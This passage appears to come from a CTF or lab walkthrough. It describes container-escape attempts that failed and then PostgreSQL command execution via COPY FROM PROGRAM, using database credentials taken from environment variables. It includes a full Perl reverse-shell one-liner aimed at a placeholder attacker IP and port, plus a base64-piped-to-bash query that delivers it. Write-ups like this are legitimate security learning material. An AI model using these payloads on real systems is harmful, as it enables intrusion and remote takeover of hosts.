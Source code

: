 ## Container escaping

To save you some headache I spent hours trying to find ways using the mounted `/proc` to escape the container  
The **release_agent** technique doesn't work since the cgroup can't be mounted (permission denied)  
I went as far as compromising the host that the DBMS was running on with no luck

### Side-note - Postgresql RCE

If you look at the `odoo` user's environment variables the database credentials are all there and you can connect to the database using the command below:

```bash
psql -h 172.17.0.2 -U odoo -d main # I used --list to list all DBs and found `main` first
# Then enter the DB password in the environment variable
```

Now you can use this technique to run system commands within the postgresql DBMS:

```SQL
CREATE TABLE cmd(output text);
COPY cmd FROM PROGRAM 'id'; -- make sure you're using single-quotes
SELECT * FROM cmd;
```

![aaf75e0c2721cafa1bd2892c61bedc59.png](./_resources/aaf75e0c2721cafa1bd2892c61bedc59.png)

- Just to let you know, python is not on the target at all but perl is
- Here is a usefull perl reverse shell payload which you replace with the 'id' above:

```perl
use Socket;$i="<attacker ip>";$p=<attacker prt>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};
```

```SQL
-- I base64-encoded the above payload to avoid escaping every single-quote
-- Before encoding it I placed the payload like this: perl -e '<payload>'
-- The final payload/query is this:
COPY cmd FROM PROGRAM 'echo <base64_payload> | base64 -d | bash';
```

![31d706b75212b3f492d9623c759f25d9.png](./_resources/31d706b75212b3f492d9623c759f25d9.png)
